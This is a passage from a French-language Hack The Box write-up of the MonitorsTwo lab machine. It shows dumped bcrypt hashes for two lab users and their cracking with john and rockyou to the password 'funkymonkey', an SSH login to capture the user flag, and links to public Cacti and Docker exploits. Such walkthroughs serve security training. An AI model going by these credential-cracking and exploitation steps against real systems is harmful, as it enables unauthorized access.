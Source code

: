 ```bash
4       marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C    0       Marcus Brune    marcus@monitorstwo.htb                  on      on      on      on      1 11       1       1       on      -1      -1              on      0       0       2135691668
```

Nous obtenons ainsi les identifiants des utilisateurs ``admin`` et ``marcus`` :

1. `admin:$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC`
2. `marcus:$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C` 

Essayons de cracker ces identifiants sur notre machine d'attaque en utilisant john:

```bash
┌──(raizen㉿Raizen)-[~/HTB/Monitorstwo]
└─$ cat hashes.txt
$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C

┌──(raizen㉿Raizen)-[~]
└─$ john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
funkymonkey      (?)
```

Ainsi nous avons les identifiants de ``marcus:funkymonkey``.Il ne reste plus qu'àeaayer de se connecter via ssh à notre cible et obtenir notre premier flag:

```bash
 ┌──(marcus㉿monitorstwo)-[~]
 └─$ssh marcus@10.10.11.211

 ┌──(marcus㉿monitorstwo)-[~]
 └─$ cat user.txt
<********************************>
```

## VI- Élevation de privilèges (2)

Après fait le tour des répertoires et fichiers, nous trouvons finallement quelque chose d'intéressant :

```bash
┌──(marcus㉿monitorstwo)-[/var]
└─$ cat mail/marcus
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

```

[1]:	https://app.hackthebox.com/machines/MonitorsTwo
[2]:	https://nvd.nist.gov/vuln/detail/CVE-2022-46169
[3]:	https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22
[4]:	https://gtfobins.github.io/gtfobins/capsh/#suid
[5]:	https://nvd.nist.gov/vuln/detail/CVE-2021-33033
[6]:	https://wiki.ubuntu.com/FocalFossa/ReleaseNotes
[7]:	https://nvd.nist.gov/vuln/detail/CVE-2020-25706 
[8]:	https://nvd.nist.gov/vuln/detail/CVE-2021-41091
[9]:	https://github.com/UncleJ4ck/CVE-2021-41091
[10]:	https://www.youtube.com/watch?v=dJfbogs8Yz0&t=8s
[11]:	https://www.rapid7.com/db/modules/exploit/linux/http/cacti_unauthenticated_cmd_injection/
[12]:	https://www.exploit-db.com/exploits/51166
[13]:	https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/linux/http/cacti_unauthenticated_cmd_injection.rb#L143
[14]:	https://pento.net/2009/02/27/the-g-modifier-in-the-mysql-command-line-client/
[15]:	https://www.freecodecamp.org/news/where-are-docker-images-stored-docker-container-paths-explained/
[16]:	https://www.gnu.org/software/bash/manual/html_node/The-Set-Builtin.html#:~:text=If%20the%20%2Dp%20option%20is,real%20user%20and%20group%20ids.&text=Enable%20restricted%20shell%20mode.,once%20it%20has%20been%20set
[image-1]: 	img/MonitorsTwo.png
[image-2]:	img/home.png
[image-3]:	img/vuln.png
[image-4]:	img/capsh.png
[image-5]:	img/linuxkernel.png
[image-6]:	img/machine_pwned.png
[image-7]:	img/burp_login_request.png
[image-8]:	img/burp_fatal_error.png
[image-9]:	img/xForwardedFor.png
[image-10]:	img/sleep_attempt.png
[image-11]:	img/payload_pos.png
[image-12]:	img/payload_settings.png
[image-13]:	img/brute_results.png
[image-14]:	img/burp_responseTime.png
[image-15]:	img/proc.png
[image-16]:	img/uptime.png
[image-17]:	img/revshell_payload.png